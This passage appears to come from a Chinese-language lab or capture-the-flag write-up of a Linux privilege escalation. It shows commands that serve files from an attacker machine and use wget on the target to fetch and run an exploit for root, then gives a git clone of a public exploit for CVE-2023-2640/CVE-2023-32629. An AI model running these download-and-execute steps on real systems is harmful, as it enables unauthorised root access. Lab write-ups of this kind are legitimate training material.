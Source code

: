 ```
python -m http.server 5566
```

在靶机上使用wget下载文件并赋予权限执行

```
wget http://10.10.16.16:5566/wrapper
wget http://10.10.16.16:5566/exploit
chmod +x wrapper
chmod +x exploit
./exploit
```

成功提权到root权限

![img](../图片/截图_2023-12-16_21-36-17.png)

**[CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)**

第二种提权方法，但是我失败了，有些wp成功了。

```
git clone https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629.git
cd CVE-2023-2640-CVE-2023-32629
python -m http.server 4455
```
